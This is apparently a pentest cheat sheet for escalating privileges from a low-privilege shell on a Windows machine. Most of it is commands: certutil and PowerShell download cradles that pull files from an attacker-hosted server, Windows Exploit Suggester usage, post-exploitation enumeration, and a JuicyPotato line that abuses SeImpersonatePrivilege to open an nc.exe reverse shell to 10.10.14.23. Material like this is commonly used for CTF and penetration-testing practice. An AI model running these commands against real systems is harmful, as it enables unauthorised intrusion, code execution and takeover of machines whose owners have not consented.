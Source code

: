 This post's content is about when you get a low, unprivileged shell on a Windows Machine.
First and foremost thing is to upload files on the system.
### Steps:
    Start server on attacker machine:
    >python3 -m http.server 80 #on attacker machine
    On victim machine:
    1)Using certutil.exe
    >certutil.exe -urlcache -split -f http://<ip><port>/path/to/file
    2)Using powershell
    >powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')

Easy way to check for privilege escalation vulnerabilties is to use [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 
Steps to use Windows-Exploit-Suggester
### Steps:
    On attacker machine:
    Install xlrd python library.
    >python windows-exploit-suggester.py -update #this will create a .xls file which will contain all ms cve's   
    On victim MS machine, run systeminfo to fetch system information, and save it locally on attacking machine as sys.txt.
    Then on attacking machine use
    >python windows-exploit-suggester.py --database file.xls --systeminfo sys.txt
    It will list all the vulnerabilties. 
    Note: [E] means Exploitdb, [M] means metasploitable

Privilege exploitation
### Post Exploitation Enumeration
    >whoami /priv ->lists privileges current user has
    >schtasks /query /fo LIST /v
    >netsh advfirewall firewall show rule name=all
    >netstat -ano
    >tasklist /SVC
    >wmic qfe get Caption, Description, HotFixID, InstalledOn
    >wmic product get name, version, vendor
    >accesschk.exe -uws "Everyone" "C:\Program Files"
    
### Some privileges if enables to exploit
    1) SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
       If this is Enabled then you are the SYSTEM.
       List of CLDIS-> https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
       juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.23 443" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} #Enter CLDIS
